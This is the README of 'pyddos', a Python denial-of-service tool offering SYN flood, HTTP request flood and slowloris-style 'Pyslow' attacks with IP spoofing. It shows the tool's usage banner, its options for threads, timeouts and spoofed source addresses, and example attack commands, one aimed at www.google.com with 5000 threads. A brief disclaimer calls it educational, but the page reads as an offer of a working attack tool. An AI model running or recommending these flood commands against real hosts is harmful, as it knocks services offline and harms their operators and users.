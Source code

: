 # pyddos.py

* This is my new update 
* This script have 3 type of ddos attack : SYNFLOOD | REQUEST | Pyslow
* Script has pyslow attack type which same like slowloris attack

# Note
* I worte this script for educational not for destructive purposes and illegal actions,so i won't responsible for that  


# Requires module
* termcolor
* colorama



# Usage
       
          _ \        __ \  __ \               ___|           _)       |   
     |   | |   | |   | |   |  _ \   __| \___ \   __|  __| | __ \  __|  
     ___/  |   | |   | |   | (   |\__ \       | (    |    | |   | |   
    _|    \__, |____/ ____/ \___/ ____/ _____/ \___|_|   _| .__/ \__|  
           ____/                                            _|         
                                                               
 DDos python script | Script used for testing ddos | Ddos attack     
 Author: ___T7hM1___                                                
 Github: http://github.com/t7hm1/pyddos                             
 Version:2.0 

    usage: ./pyddos -t [target] -p [port] -t [number threads]

    optional arguments:
    -h, --help       show this help message and exit
    -v, --version    show program's version number and exit

    options:

    -d <ip|domain>   Specify your target such an ip or domain name
    -t <float>       Set timeout for socket
    -T <int>         Set threads number for connection (default = 1000)
    -p <int>         Specify port target (default = 80) |Only required with pyslow attack|
    -s <int>         Set sleep time for reconnection
    -i <ip address>  Specify spoofed ip unless use fake ip
    -Request         Enable request target
    -Synflood        Enable synflood attack
    -Pyslow          Enable pyslow attack
    --fakeip         Option to create fake ip if not specify spoofed ip

    Example:
         ./pyddos -d www.example.com -p 80 -T 2000 -Pyslow
        ./pyddos -d www.domain.com -s 100 -Request
        ./pyddos -d www.google.com -Synflood -T 5000 -t 10.0

